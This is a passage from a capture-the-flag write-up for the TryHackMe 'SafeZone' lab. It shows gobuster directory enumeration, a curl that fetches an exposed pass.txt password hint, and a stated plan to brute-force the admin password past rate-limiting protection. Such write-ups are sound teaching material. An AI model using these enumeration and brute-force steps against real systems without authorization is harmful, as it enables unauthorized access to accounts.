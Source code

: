 Nice! We have new progress.

**Let's enumerate `/~files` directory!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# gobuster dir -u http://safezone.thm/~files/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 100
[...]
/.bashrc              (Status: 200) [Size: 3771]
[...]
/.gnupg               (Status: 301) [Size: 320] [--> http://safezone.thm/~files/.gnupg/]
/.htacess             (Status: 403) [Size: 277]
/.local               (Status: 301) [Size: 320] [--> http://safezone.thm/~files/.local/]
/.profile             (Status: 200) [Size: 807]
```

Looks like this is a user Linux home directory!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230010413.png)

**But most importantly, we found `pass.txt`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# curl http://safezone.thm/~files/pass.txt
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

**So admin's password is `admin[0-9]{2}admin`.**

Let's brute force it!

However, we need to bypass the brute force protection.

